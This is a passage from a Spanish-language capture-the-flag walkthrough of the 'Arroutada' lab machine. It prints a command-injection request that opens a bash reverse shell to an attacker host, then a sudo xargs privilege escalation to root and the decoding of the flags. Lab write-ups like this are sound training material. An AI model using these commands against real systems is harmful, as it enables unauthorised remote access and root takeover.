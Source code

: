 ```
❯ curl -s -X POST "http://10.0.2.16:8001/priv.php" -H "Content-Type: application/json" -d '{"command": "/bin/bash -c \"/bin/bash -i &>/dev/tcp/10.0.2.4/444 0>&1\""}'
```

Ahora si tenemos una shell como el usuario Drito y la mejoramos como la shell anterior
Encontramos la primera flag

```
drito@arroutada:~$ ls
service  user.txt  web
drito@arroutada:~$ cat user.txt 
************1f9af6aa1afcc91ed27c
```
Ahora buscamos la forma de escalar privilegios

```
drito@arroutada:~$ sudo -l
Matching Defaults entries for drito on arroutada:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drito may run the following commands on arroutada:
    (ALL : ALL) NOPASSWD: /usr/bin/xargs
```

Buscando en gtfobins encontramos que podemos abirir una shell como root
https://gtfobins.github.io/gtfobins/xargs/

```
drito@arroutada:~$ sudo /usr/bin/xargs -a /dev/null sh
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
root@arroutada:/home# cd /root
root@arroutada:~# cat root.txt 
***************OYXFOeXlVbnB4WmxJWg==
```

Al parecer la flag esta encriptada. Al parecer es base64 pero cuando la desencripto al parecer sigue encriptada en otra forma. Viendo cual era la encriptacion al parecer es ROT13

```
******************ackMyVM
```

Con esto terminamos la maquina Arroutada. Me parece una buena maquina trayendo desde lo basico a un poco mas intermedio al final. 
